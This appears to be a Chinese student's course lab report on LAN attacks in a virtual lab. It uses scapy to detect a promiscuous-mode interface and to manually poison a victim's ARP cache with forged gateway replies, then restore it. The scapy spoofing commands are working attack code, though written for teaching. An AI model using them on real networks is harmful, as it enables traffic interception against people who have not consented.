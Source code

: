 ## 实验四：网络拓扑

### **网络拓扑**


![](./img/网络拓扑图.PNG)


网络中的节点基本信息如下：

| id       | ip address   | mac address
| ---   | --- | --- |
| Debian-gateway   | 172.16.111.1/24 |  08:00:27:47:aa:70
|    kali-attacker    | 172.16.111.147/24   | 08:00:27:25:6c:52
| kali-victim-1|172.16.111.117/24|08:00:27:1e:72:79



### **实验准备**

**安装 scapy**

在攻击者主机上提前安装好 scapy 

```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![](./img/成功安装scapy.PNG)

### **实验一：检测局域网中的异常终端**

```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

![](./img/检查混杂模式是否启用.PNG)


```
# 在攻击者主机上开启 scapy
sudo scapy
```

![](./img/开启scapy.PNG)


```
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.117")
```

![](./img/promiscping1.PNG)


```
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

![](./img/开启混杂模式.PNG)



```
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.117")
```

![](./img/比较差异.PNG)

```
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```
**PS：**

输出差异：在受害者主机未开启混杂模式前，攻击者主机收到`0 packet 0 answer`, 而开启后攻击者主机收到`1 packet 1 answer`。

### **实验二：手工单步“毒化”目标主机的 ARP 缓存**

以下代码在攻击者主机上的 scapy 交互式终端完成。

1.获取当前局域网的网关 MAC 地址

```
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![](./img/ARP请求报文.PNG)

```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

![](./img/发送ARP请求.PNG)

2.伪造网关的 ARP 响应包

```
# 准备发送给受害者主机 172.16.111.117
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.117", hwdst="08:00:27:25:6c:52")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)

```

![](./img/发送伪造ARP.PNG)

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```
ip neigh
```

![](./img/ARP欺骗成功.PNG)

3.恢复受害者主机的 ARP 缓存记录

```
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:47:aa:70", pdst="172.16.111.117", hwdst="08:00:27:25:6c:52")
sendp(restorepkt1, count=100, inter=0.2)
```


![](./img/攻击者恢复ARP.PNG)


```
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
![](./img/受害者刷新ARP.PNG)


### **遇到的问题与解决办法**

- 伪造网关的 ARP 响应包失败,在受害者主机上查看 ARP 缓存
    ![](./img/ARP缓存不对.PNG)

   -   解决：将`arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.117", hwdst="08:00:27:25:6c:52")`改为`arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.117", hwdst="08:00:27:25:6c:52")`即可



### **参考资料**

[老师的课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)